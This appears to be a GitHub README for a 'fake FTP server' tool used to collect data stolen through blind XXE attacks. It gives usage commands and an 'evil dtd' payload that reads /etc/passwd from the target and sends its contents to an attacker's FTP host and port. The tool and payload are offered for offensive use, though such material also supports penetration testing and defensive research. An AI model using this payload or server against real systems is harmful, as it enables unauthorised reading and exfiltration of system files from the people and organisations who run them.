 # Fake-FTP-Server
This is a fake ftp server to receive data when you exploit blind XXE vulnerabilities to read files.

### Usage:
```
python fake-ftp-server.py PORT output-file

python fake-ftp-server.py 1234 res.txt
```
The fake server will run on PORT.        
The program may use another port for auxiliary (default is 63568), if it is occupied, please change it by yourself!

The evil dtd is like:
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % int "<!ENTITY &#37; send SYSTEM 'ftp://IP:PORT/%file;'>">
```
![example](./images/example.png)